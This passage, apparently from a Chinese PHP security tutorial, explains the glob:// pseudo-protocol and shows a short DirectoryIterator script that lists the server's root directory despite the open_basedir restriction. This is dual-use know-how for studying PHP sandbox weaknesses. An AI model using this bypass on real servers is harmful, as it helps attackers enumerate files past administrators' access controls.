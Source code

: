 #### glob://伪协议

glob://协议是php5.3.0以后一种查找匹配的文件路径模式。
官方给出了一个示例用法

```php
<?php
// 循环 ext/spl/examples/ 目录里所有 *.php 文件
// 并打印文件名和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?
```

glob://伪协议需要结合其他函数方法才能列目录，单纯传参glob://是没办法列目录的。

#### DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)
脚本差不多如下:

```php
<?php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

可以看到,成功列出目录:
![img](daydayup.assets/open_basedir_5.png)
